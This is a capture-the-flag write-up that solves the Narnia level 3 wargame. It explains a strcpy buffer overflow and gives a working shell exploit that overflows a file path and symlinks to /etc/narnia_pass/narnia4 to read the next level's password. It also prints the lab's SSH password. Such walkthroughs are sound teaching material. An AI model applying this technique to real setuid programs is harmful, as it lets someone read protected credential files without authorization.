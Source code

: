 ```yaml
---
layout: post
title:  "Narnia Level 3"
date:   2015-10-12 12:52
categories: narnia wargame pwnable overthewire python c
author: Leander
---
```


This is a solution guide to the Narnia3 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 12 October 2015.

<strong>Challenge Description:</strong> Narnia3 requires the attacker to take advantage of a <em>strcpy()</em> vulnerability which does not have any bounds checking. Since the <em>strcpy()</em> is executed blindly it creates a situation where the user can overwrite the buffer affecting all the variables in main. 
<!--break-->

First connect to the lab
<ul><li>ssh narnia3@narnia.labs.overthewire.org</li>
<li>Enter the following as the password vaequeezee</li></ul>

Change directories to the narnia games folder: `cd /narnia`. Next, let's examine how we get the password for the next level: `less narnia3.c`

{% highlight c linenos %}
int main(int argc, char **argv){
 
 int  ifd,  ofd;
 char ofile[16] = "/dev/null";
 char ifile[32];
 char buf[32];
 
 if(argc != 2){
  printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
  exit(-1);
 }
 
/* open files */
 strcpy(ifile, argv[1]);
 if((ofd = open(ofile,O_RDWR)) < 0 ){
  printf("error opening %s\n", ofile);
  exit(-1);
 }
 if((ifd = open(ifile, O_RDONLY)) < 0 ){
  printf("error opening %s\n", ifile);
  exit(-1);
 }
 
/* copy from file1 to file2 */
 read(ifd, buf, sizeof(buf)-1);
 write(ofd,buf, sizeof(buf)-1);
 printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
 
/* close 'em */
 close(ifd);
 close(ofd);
 
 exit(1);
}
{% endhighlight %}

This is an interesting problem because the program accepts a command line argument and then does a <em>strcpy()</em> of <em>argv[1]</em> on line 14. When we check the man pages for <em>strcpy()</em> we find, "The  strcpy()  function copies the string pointed to by src, including the terminating null byte ('\0'), to the buffer  pointed  to  by  dest." We also find at the end of the man page a specific bug (shortcut is shift+gg):

<figure class="highlight"><pre><code class="language-text" data-lang="text">BUGS
 If the destination string of a strcpy() is not large enough, then  any-
 thing  might  happen.   Overflowing  fixed-length  string  buffers is a
 favorite cracker technique for taking complete control of the  machine.
 Any  time  a  program  reads  or copies data into a buffer, the program
 first needs to check that there's enough space.  This may  be  unneces-
 sary  if you can show that overflow is impossible, but be careful: pro-
 grams can get changed over time, in ways that may make  the  impossible
 possible.</code></pre></figure>
 
Great so now we know we have another buffer overflow, and you can find more information about buffer overflows at [exploit-db](https://www.exploit-db.com/papers/13207/). So knowing this information we now know that <em>strcpy()</em> will take everything it finds in <em>argv[1]</em> until it reaches a null character, but the buffer for ifile is only 32 bytes. If our <em>argv[1]</em> were longer than 32 bytes it would overflow into something, but now the question is:

* What is the something that <em>argv[1]</em> overuns?
* Can we take advantage of the buffer overrun and make it do something unintended?

First, lets make some files. Since we know that the buffer needs to be overrun by 32 bytes we need to name a file something that is larger than 32 bytes. After the file is created we can test our theory with:

{% highlight bash linenos %}
python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
/narnia/narnia3 `pwd`/abc #test theory
{% endhighlight %}

![Test Theory](/images/narnia03_first_test.png)

This creates a directory in the tmp folder [^1] called aaaaaaaaaaaaaaaaaaaaaaaaaaa. The screenshot tells us that we are either overunning the ifile or the ofile, because it notified us of an error that it couldn't open "/abc", but did not provide us the entire directory we tried to open. Let's examine which we are overrunning with `objdump -d -M intel /narnia/narnia3`

First, I'm going to build a visual image of what the stack looks like.[^2] Our variables are declared in this order ifd, ofd, ofile[16], ifile[32], and buf[32]. Beginning at 0x8048523 the stack expands by 112 bytes. Which means the bytes are reserved as follows: bottom 4 bytes[^3] are ifd, followed by 4 bytes ofd, 16 bytes for ofile, 32 bytes for ifile, and 32 bytes for buff. This is a total of 88 bytes - the remainder of the bytes are used for local variables.

<p><table width="100%">
<tr>
      <th width="25%">Stack</th>
      <th width="15%">Register Info</th>
      <th width="60%">Notes</th>
</tr>
<tr>
      <td>int ifd</td>
      <td>esp+108</td>
      <td>4-byte integer in file descriptor</td>
</tr>
<tr>
      <td>int ofd</td>
      <td>esp+104</td>
      <td>4-byte integer out file descriptor</td>
</tr>
<tr>
      <td>0<br>
      l<br>
      /nul<br>
      /dev</br></td>
      <td>esp+100<br>
      esp+96<br>
      esp+92<br>
      esp+88</td>
      <td>This is where ofile[16] is located. We can determine this because ofile is 16 bytes and is statically assigned /dev/null in line 4 of the source code.</td>
</tr>
<tr>
      <td>char ifile[32]</td>
      <td>esp+84<br>
      ...<br>
      esp+56</br></td>
      <td>ifile is located here and encompasses 32 bytes, ending at esp+84.</td>
</tr>
<tr>
      <td>char buff[32]</td>
      <td>esp+52<br>
      ...<br>
      esp+24</br></td>
      <td>buff[32] is located here and encompasses 32 bytes, ending at esp+52.</td>
</tr>
<tr>
      <td>local variables</td>
      <td>esp+20<br>
      ...<br>
      esp+0</br></td>
      <td>There is space reserved for several local variables. These local variables established for passing arguments to C standard library functions such as <em>read</em>, <em>open</em>, and <em>strcpy</em>.</td>
</tr>
</table><br/></p>

Confirm the view of the stack by observing is at a designated breakpoint - 0x8048546[^4]. It doesn't look like text, but that is because we are viewing all hexidecimal values. We can type a simple command in order to see the known string in the stack as shown.

![gdb stack view at breakpoint](/images/narnia03_gdb_stack_view.png)

Beginning at 0x8048526 the character string /dev/null for ofile is placed onto the top of the stack at esp+58. The next interesting point is around 0x8048579 where a strcpy operation takes arg[0] and copies it into ifile. If we reference our stack table now we can see what is happened to our input earlier, because the "abc" overflowed into the ofile!

![objdump screenshot with intel syntax](/images/narnia03_objdump_screenshot.png)

Now it's time to craft our input to take advantage of this vulnerability. The general idea is that we are going to use two file names with the same name to pass as arguments to ifile and ofile. We will take advantage of the write function which was previously writing to /dev/null and make it write something else instead. Which if we create a symbollically linked file as our input we can read the key.

{% highlight bash linenos %}
python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
ln -s /etc/narnia_pass/narnia4 abc #create the symbollically linked file
touch /tmp/abc #create our temp file for the key
chmod 777 /tmp/abc #where the key will be written
/narnia/narnia3 `pwd`/abc #test our solution
cat /tmp/abc #read key
{% endhighlight %}

BINGO! level 4 password is ```????```

<h3>Footnotes:</h3>
[^1]: I use the tmp folder because that is the one of the few globally write/read folders in the linux system from which I don't need a specific user's access privileages to use. This allows me to create folders inside /tmp which will be owned by myself and then still be able to read other folders or files inside the tmp directory, provided I know the file or directory name.
[^2]: The numbers I reference are different than what is in the screenshot because I am using decimal instead of hexadecimal number references. It is only a matter of preference and is easier for me to read.
[^3]: How do I know it's 4 bytes for the variable? Well an integer value has a maximum value of 4,294,967,296. Which factors into a value of 2^32, and last 32 bits / 8, because 8 bits are in a byte, = 4 bytes.
[^4]: First you have to make sure you have a readable file, next you need to open the file using gdb: ```gdb ./narnia3 test```. Next set a breakpoint: ```b *0x8048546``` and then type ```run```. Last, examine the stack with the following command: ```x /40xw $esp```. If you need to learn more about gdb check it out [here](link to gdb).